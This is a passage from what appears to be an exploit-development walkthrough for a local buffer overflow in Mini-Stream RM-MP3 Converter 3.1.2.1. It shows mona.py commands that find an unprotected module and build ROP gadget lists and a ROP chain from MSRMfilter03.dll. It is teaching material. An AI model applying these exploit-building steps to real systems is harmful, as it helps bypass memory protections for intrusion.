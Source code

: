 I try to find out a module withou all protection.
```
!mona modules
```

Fortunately, there is a module that matches.
![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x002.png)

Generate a ROPgadget list should be helpful to us.
```
!mona ropfunc -m MSRMfilter03.dll -cp b'\x00\x09\x0a'
```
![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x003.png)

Or we even can generate rop chain, thanks to corelanc0d3r!
```
!mona rop -m MSRMfilter03.dll -cp b'\x00\x09\x0a'
```
![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x004.png)
